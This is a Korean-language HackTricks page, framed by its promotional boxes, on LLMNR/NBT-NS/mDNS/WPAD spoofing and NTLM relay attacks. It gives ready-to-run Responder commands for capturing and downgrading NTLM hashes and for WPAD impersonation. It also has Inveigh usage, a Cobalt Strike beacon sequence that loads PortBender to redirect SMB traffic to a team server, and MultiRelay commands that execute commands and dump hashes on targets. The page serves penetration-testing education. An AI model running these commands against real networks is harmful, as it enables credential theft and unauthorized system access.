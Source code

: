 # LLMNR, NBT-NS, mDNS/DNS 및 WPAD 스푸핑 및 릴레이 공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **Hacking 트릭을 공유하려면** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하세요.

</details>

## 네트워크 프로토콜

### 로컬 호스트 해결 프로토콜
- **LLMNR, NBT-NS 및 mDNS**:
- Microsoft 및 기타 운영 체제는 DNS가 실패할 때 로컬 이름 해결을 위해 LLMNR 및 NBT-NS를 사용합니다. 마찬가지로 Apple 및 Linux 시스템은 mDNS를 사용합니다.
- 이러한 프로토콜은 UDP를 통해 인증되지 않은 브로드캐스트 방식으로 통신하기 때문에 가로채기와 스푸핑에 취약합니다.
- [Responder](https://github.com/lgandx/Responder)를 사용하여 이러한 프로토콜을 쿼리하는 호스트에 위조된 응답을 보내 서비스를 위장할 수 있습니다.
- Responder를 사용한 서비스 위장에 대한 자세한 정보는 [여기](spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks.md)에서 찾을 수 있습니다.

### 웹 프록시 자동 검색 프로토콜 (WPAD)
- WPAD를 사용하면 브라우저가 프록시 설정을 자동으로 검색할 수 있습니다.
- 검색은 DHCP, DNS 또는 DNS가 실패하는 경우 LLMNR 및 NBT-NS로 대체됩니다.
- Responder를 사용하여 WPAD 공격을 자동화하여 클라이언트를 악성 WPAD 서버로 유도할 수 있습니다.

### 프로토콜 독점을 위한 Responder
- **Responder**는 LLMNR, NBT-NS 및 mDNS 쿼리를 독점하기 위해 사용되는 도구로, 쿼리 유형에 따라 선택적으로 응답을 보내 SMB 서비스를 주로 대상으로 합니다.
- Kali Linux에 미리 설치되어 있으며 `/etc/responder/Responder.conf`에서 구성할 수 있습니다.
- Responder는 캡처된 해시를 화면에 표시하고 `/usr/share/responder/logs` 디렉토리에 저장합니다.
- IPv4 및 IPv6를 모두 지원합니다.
- Responder의 Windows 버전은 [여기](https://github.com/lgandx/Responder-Windows)에서 사용할 수 있습니다.

#### Responder 실행
- 기본 설정으로 Responder 실행: `responder -I <인터페이스>`
- 더 공격적인 프로빙을 위한 실행 (부작용 가능): `responder -I <인터페이스> -P -r -v`
- NTLMv1 도전/응답을 캡처하여 더 쉬운 크래킹을 위한 기술: `responder -I <인터페이스> --lm --disable-ess`
- WPAD 위장을 활성화할 수 있습니다: `responder -I <인터페이스> --wpad`
- NetBIOS 요청을 공격자의 IP로 해결하고 인증 프록시를 설정할 수 있습니다: `responder.py -I <인터페이스> -Pv`

### Responder를 사용한 DHCP 독점
- DHCP 응답을 위조하여 피해자의 라우팅 정보를 영구적으로 손상시킬 수 있으며, ARP 독점에 비해 은밀한 대안을 제공합니다.
- 대상 네트워크의 구성에 대한 정확한 지식이 필요합니다.
- 공격 실행: `./Responder.py -I eth0 -Pdv`
- 이 방법은 효과적으로 NTLMv1/2 해시를 캡처할 수 있지만, 네트워크 중단을 피하기 위해 주의가 필요합니다.

### Responder를 사용한 자격 캡처
- Responder는 위에서 언급한 프로토콜을 사용하여 서비스를 위장하고, 사용자가 위장된 서비스에 인증을 시도할 때 자격 증명(일반적으로 NTLMv2 도전/응답)을 캡처합니다.
- 자격 증명 크래킹을 위해 NetNTLMv1로 다운그레이드하거나 ESS를 비활성화하는 시도를 할 수 있습니다.

이러한 기술을 사용할 때는 합법적이고 윤리적인 방식으로 진행해야 하며, 적절한 권한을 보장하고 네트워크 방해나 무단 접근을 피해야 합니다.

## Inveigh

Inveigh는 Windows 시스템을 위해 설계된 펜테스트 및 레드팀 도구입니다. Responder와 유사한 스푸핑 및 중간자 공격 기능을 제공합니다. 이 도구는 PowerShell 스크립트에서 C# 이진 파일로 진화했으며, 주요 버전으로 [**Inveigh**](https://github.com/Kevin-Robertson/Inveigh)와 [**InveighZero**](https://github.com/Kevin-Robertson/InveighZero)가 있습니다. 자세한 매개변수 및 지침은 [**위키**](https://github.com/Kevin-Robertson/Inveigh/wiki/Parameters)에서 찾을 수 있습니다.

Inveigh는 PowerShell을 통해 작동할 수 있습니다:
```powershell
Invoke-Inveigh -NBNS Y -ConsoleOutput Y -FileOutput Y
```
또는 C# 이진 파일로 실행될 수 있습니다:
```bash
Inveigh.exe
```
### NTLM Relay Attack

이 공격은 SMB 인증 세션을 활용하여 대상 컴퓨터에 액세스하여 성공 시 시스템 쉘을 얻습니다. 주요 전제 조건은 다음과 같습니다:
- 인증하는 사용자는 중계된 호스트에서 로컬 관리자 액세스를 가져야 합니다.
- SMB 서명이 비활성화되어 있어야 합니다.

#### 445 포트 포워딩 및 터널링

직접적인 네트워크 연결이 불가능한 경우, 445 포트의 트래픽을 포워딩하고 터널링해야 합니다. [**PortBender**](https://github.com/praetorian-inc/PortBender)와 같은 도구를 사용하여 포트 445의 트래픽을 다른 포트로 리디렉션하는 것이 필요합니다. 이는 로컬 관리자 액세스가 드라이버 로딩에 사용 가능한 경우 필수적입니다.

Cobalt Strike에서 PortBender 설정 및 운영:
```bash
Cobalt Strike -> Script Manager -> Load (Select PortBender.cna)

beacon> cd C:\Windows\system32\drivers # Navigate to drivers directory
beacon> upload C:\PortBender\WinDivert64.sys # Upload driver
beacon> PortBender redirect 445 8445 # Redirect traffic from port 445 to 8445
beacon> rportfwd 8445 127.0.0.1 445 # Route traffic from port 8445 to Team Server
beacon> socks 1080 # Establish a SOCKS proxy on port 1080

# Termination commands
beacon> jobs
beacon> jobkill 0
beacon> rportfwd stop 8445
beacon> socks stop
```
### NTLM Relay 공격을 위한 다른 도구들

- **Metasploit**: 프록시, 로컬 및 원격 호스트 세부 정보로 설정합니다.
- **smbrelayx**: SMB 세션을 릴레이하고 명령을 실행하거나 백도어를 배포하기 위한 Python 스크립트입니다.
- **MultiRelay**: 특정 사용자 또는 모든 사용자에 대한 릴레이, 명령 실행 또는 해시 덤프를 위한 Responder 스위트의 도구입니다.

각 도구는 필요한 경우 SOCKS 프록시를 통해 작동하도록 구성할 수 있으므로 간접적인 네트워크 액세스로도 공격이 가능합니다.

### MultiRelay 작동

MultiRelay는 _**/usr/share/responder/tools**_ 디렉토리에서 실행되며, 특정 IP 또는 사용자를 대상으로 합니다.
```bash
python MultiRelay.py -t <IP target> -u ALL # Relay all users
python MultiRelay.py -t <IP target> -u ALL -c whoami # Execute command
python MultiRelay.py -t <IP target> -u ALL -d # Dump hashes

# Proxychains for routing traffic
```
이러한 도구와 기술은 다양한 네트워크 환경에서 NTLM Relay 공격을 수행하기 위한 포괄적인 세트를 형성합니다.

### NTLM 로그인 강제

Windows에서는 특정 권한이 있는 계정을 임의의 기기에 인증하도록 **강제할 수 있을 수도 있습니다**. 다음 페이지를 읽어보고 이에 대해 자세히 알아보세요:

{% content-ref url="../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md" %}
[printers-spooler-service-abuse.md](../../windows-hardening/active-directory-methodology/printers-spooler-service-abuse.md)
{% endcontent-ref %}

## 참고 자료
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/](https://www.4armed.com/blog/llmnr-nbtns-poisoning-using-responder/)
* [https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/](https://www.notsosecure.com/pwning-with-responder-a-pentesters-guide/)
* [https://intrinium.com/smb-relay-attack-tutorial/](https://intrinium.com/smb-relay-attack-tutorial/)
* [https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html](https://byt3bl33d3r.github.io/practical-guide-to-ntlm-relaying-in-2017-aka-getting-a-foothold-in-under-5-minutes.html)


<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* HackTricks에서 **회사 광고를 보거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family)인 [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** 팔로우하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기법을 공유하세요.

</details>
